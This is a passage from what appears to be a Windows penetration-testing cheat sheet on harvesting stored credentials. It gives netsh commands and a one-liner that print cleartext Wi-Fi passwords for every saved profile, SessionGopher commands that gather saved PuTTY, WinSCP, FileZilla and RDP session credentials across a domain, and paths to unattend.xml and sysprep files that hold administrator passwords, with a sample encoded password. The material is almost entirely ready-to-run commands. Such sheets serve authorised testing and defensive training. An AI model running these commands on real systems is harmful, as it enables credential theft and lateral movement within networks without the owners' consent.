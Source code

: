 Find AP SSID
```bat
netsh wlan show profile
```

Get Cleartext Pass
```bat
netsh wlan show profile <SSID> key=clear
```

Oneliner method to extract wifi passwords from all the access point.

```batch
cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

#### Passwords stored in services

Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using [SessionGopher](https://github.com/Arvanaghi/SessionGopher)


```powershell
https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```

#### Passwords in unattend.xml

The unattend.xml file is used by system administrators to automate the Windows installation process with the  `Windows Deployment Services`

```powershell
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

Display the content of these files with `dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul`.

Example content:

```xml
<component name="Microsoft-Windows-Shell-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="amd64">
    <AutoLogon>
     <Password>U2VjcmV0U2VjdXJlUGFzc3dvcmQxMjM0Kgo==</Password>
     <Enabled>true</Enabled>
     <Username>Administrateur</Username>
    </AutoLogon>

    <UserAccounts>
     <LocalAccounts>
      <LocalAccount wcm:action="add">
       <Password>*SENSITIVE*DATA*DELETED*</Password>
       <Group>administrators;users</Group>
       <Name>Administrateur</Name>
      </LocalAccount>
     </LocalAccounts>
    </UserAccounts>
```
